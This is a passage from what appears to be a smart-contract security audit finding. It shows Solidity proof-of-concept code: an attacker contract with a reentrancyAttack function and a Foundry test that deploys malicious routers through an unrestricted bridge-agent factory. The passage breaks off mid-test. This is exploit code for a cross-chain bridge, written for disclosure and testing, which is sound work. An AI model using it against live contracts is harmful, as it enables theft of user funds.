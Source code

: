```Solidity
    function reentrancyAttack(
        RootBridgeAgent _rootBridgeAgent, 
        address owner,
        address recipient,
        address outputToken,
        uint256 amountOut,
        uint256 depositOut,
        uint24 toChain
    ) external payable {

        // Approve Root Port to spend/send output hTokens.
        ERC20hTokenRoot(outputToken).approve(address(_rootBridgeAgent), amountOut);

        // Encode calldata to pass in rootBridgeAgent address and 
        // also to trigger exeuction of anyExecuteSettlement
        bytes memory data = abi.encodePacked(address(_rootBridgeAgent));

        // Initiate the first settlement
        _rootBridgeAgent.callOutAndBridge{value: msg.value}(
            owner, recipient, data, outputToken, amountOut, depositOut, toChain
        );
    }
}
```

2. Then add and run following test case in the `RootTest` contract within `RootTest.t.sol`.

```Solidity
    function testPeakboltRetrySettlementReentrancy() public {
        //Set up
        testAddLocalTokenArbitrum();

        address attacker = address(0x999);

        // Attacker deploys RootBridgeAgent with malicious Routers 
        // Issue 1 - RootBridgeAgentFactory.createBridgeAgent() has no access control, 
        //           which allows anyone to create RootBridgeAgent and inject RootRouter and BranchRouter.
        hevm.startPrank(attacker);
        AttackerRouter attackerRouter = new AttackerRouter();
        AttackerBranchRouter attackerBranchRouter = new AttackerBranchRouter();
        RootBridgeAgent attackerBridgeAgent = RootBridgeAgent(
            payable(RootBridgeAgentFactory(bridgeAgentFactory).createBridgeAgent(address(attackerRouter)))
        );
        attackerBridgeAgent.approveBranchBridgeAgent(ftmChainId);
        hevm.stopPrank();

        //Get some gas.
        hevm.deal(attacker, 0.1 ether);
        hevm.deal(address(attackerBranchRouter), 0.1 ether);

        // Add FTM branchBridgeAgent and inject the malicious BranchRouter 
        hevm.prank(attacker);
        rootCoreRouter.addBranchToBridgeAgent{value: 1e12}(
            address(attackerBridgeAgent),
            address(ftmBranchBridgeAgentFactory),
            address(attackerBranchRouter),
            address(ftmCoreRouter),
            ftmChainId,
            5e11
        );

        // Initialize malicious BranchRouter with the created BranchBridgeAgent for FTM 
```
